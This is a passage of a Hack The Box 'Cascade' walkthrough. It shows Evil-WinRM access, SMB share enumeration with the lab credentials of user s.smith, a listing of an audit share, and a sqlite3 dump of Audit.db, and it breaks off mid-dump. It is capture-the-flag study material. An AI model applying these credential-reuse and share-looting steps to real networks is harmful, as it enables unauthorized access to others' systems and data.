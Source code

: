 ```

```
*Evil-WinRM* PS C:\Users\s.smith\Desktop> type user.txt
f29abe4e609b2aebb4fe99257a9eb507
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User `s.smith`
## smbmap
```
zweilos@kalimaa:~/htb/cascade$ smbmap -H 10.10.10.182 -u s.smith -p sT333ve2
[+] IP: 10.10.10.182:445        Name: Casc-DC1                                          
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  READ ONLY
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```
smith has access to the IT Data and Audit shares, as well as print$ and SYSVOL
```
zweilos@kalimaa:~/htb/cascade$ smbclient -U s.smith -W Cascade \\\\10.10.10.182\\Audit$
Enter CASCADE\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                       A    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                      A    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020

                13106687 blocks of size 4096. 7794884 blocks available
```
the file `RunAudit.bat` only contained the line `*Evil-WinRM* PS C:\shares\audit> more  RunAudit.bat
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"`

```
*Evil-WinRM* PS C:\shares\audit> more  RunAudit.bat
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```
using the command `sqlite3 Auditdb` gets me a sqlite shell where I can enumerate the database
```
zweilos@kalimaa:~/htb/cascade$ sqlite3 Audit.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .databases
main: /home/zweilos/htb/cascade/Audit.db
sqlite> .tables
DeletedUserAudit  Ldap              Misc            
sqlite> .dump DeletedUserAudit 
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE IF NOT EXISTS "DeletedUserAudit" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,